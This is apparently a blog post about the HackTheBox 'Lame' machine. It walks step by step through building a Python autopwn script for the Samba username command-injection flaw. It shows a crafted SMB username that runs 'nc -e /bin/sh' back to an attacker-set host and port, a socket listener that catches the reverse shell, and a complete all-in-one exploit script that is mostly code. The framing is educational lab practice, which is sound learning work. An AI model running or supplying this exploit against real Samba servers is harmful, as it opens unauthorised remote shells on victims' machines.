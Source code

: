 ```yaml
---
layout: post
title: "HackTheBox Lame Autopwn"
---
```


# Building The Autopwn

For my [lame](https://agent-tiro.github.io/htb/lame) writeup I ended up making an autopwn script. Mainly as an exercise for me to keep improving my scripting knowledge. I thought it would be good to explain how it was put together and built in stages for those looking to start scripting a bit more. 

## The Exploit

The aim is to connect to the Samba share and logon with the crafted username to run a command that will connect back to a listener we set up. This part is fairly straight forward. All we need is a python library to handle the smb protocol. I used [pysmb](https://pypi.org/project/pysmb/), which has some good online [documentation](https://pysmb.readthedocs.io/en/latest/). 

First up we will set the malicious username variable, and a password to exploit the vulnerability. 

```
username = '/=`nohup nc -e /bin/sh <ip addr> <port> `'
password = 'hunter2' # this is not important
```

Now we want to import the relevant parts from the smb library and setup a connection to the Samba share. 

```
from smb.SMBConnection import SMBConnection
from smb import smb_structs

username = '/=`nohup nc -e /bin/sh <ip addr> <port> `'
password = 'hunter2' # this is not important

smb_structs.SUPPORT_SMB2 = False
conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
conn.connect('10.10.10.3', 445)
```

In this part we set support to SMB2 to false to enable connection to the older version of Samba that we are targetting. The details for the connection are completed, using the documents as a reference for what should be passed. Then connect is used to initiate the connection to the target IP and port. 

If you really wanted this could be the end of your exploit script. You could setup a netcat listener and run this exploit and enjoy your shell. Or if you wanted to challenge yourself you could try and setup your own listener in python to catch the incoming connection

## The Listener

For this I used the socket library which is well documented and has a lot of use cases that can be used to help solve problems you encounter. 

```
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((<ip addr>, <port>))
s.listen(5)
```

So now the listener is setup we need a way to accept the incoming connection when the exploit is ran. It also needs to be able to send commands to the target and receive the response. 

```
client_socket, client_addr = s.accept() # accepts the incoming connection
while True:
    command = input("") # take user input for commands
    if command.lower() == 'exit': # so we can use exit to close the shell
        break
    command = command.encode() # encode the command to be sent
    client_socket.send(command + b'\n') # send the command
    response = client_socket.recv(2048).decode() # receive the response and decode
    print(response) # print the response
client_socket.close()
s.close()
```

## The Listener Problem

The problem we have here is that if this was all combined into a script is that it wouldn't be possible to launch the listener then switch to running the exploit. The easiest way around this that I found was to use multiprocessing. This needed a bit of a rework of the above parts and to put some of them into functions. With the multiprocessing bit looking like this:

```
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()
```

This basically sets a process to the listener and another to the exploit and starts them sequentially before dropping into the command functon which accepts the inbound connection and gives command shell functionality. 

## The Final Exploit

Putting all of this together, with a little extra to take user input to set the listening host and port and you have an all in one script that will setup the listener, run the exploit and give you command line access to the target. 

```
import argparse
from smb.SMBConnection import SMBConnection
from smb import smb_structs
import socket
import multiprocessing
import time

# Create a mini help file to show which flags are required
parser = argparse.ArgumentParser(description='Lame Exploit')
parser.add_argument('-l', required=True, type=str, help='Listener IP')
parser.add_argument('-p', required=True, type=int, help='Listener Port')
args = parser.parse_args()

# Set user args to variables for use later
host = args.l
port = args.p

# Create malicious username
username = '/=`nohup nc -e /bin/sh ' + host + ' ' + str(port) + '`'
password = 'hunter2'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Set up a listener
def listener():
    s.bind((host, port))
    s.listen(5)
    print('Listening on port: ' + str(port))

# Catch that shell
def cmd():
    client_socket, client_addr = s.accept()
    print(f'{client_addr[0]}:{client_addr[1]} Connected!')
    print('Whoop! Shell Time!\n')
    while True:
        command = input("")
        if command.lower() == 'exit':
            break
        command = command.encode()
        client_socket.send(command + b'\n')
        response = client_socket.recv(2048).decode()
        print(response)
    client_socket.close()
    print('Exiting')
    s.close()

# Create SMB Connection
def exploit():
    smb_structs.SUPPORT_SMB2 = False
    conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
    print('Launching exploit')
    conn.connect('10.10.10.3', 445)
    time.sleep(1)
    close()

# Launch this thing in multiprocessing
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()
```

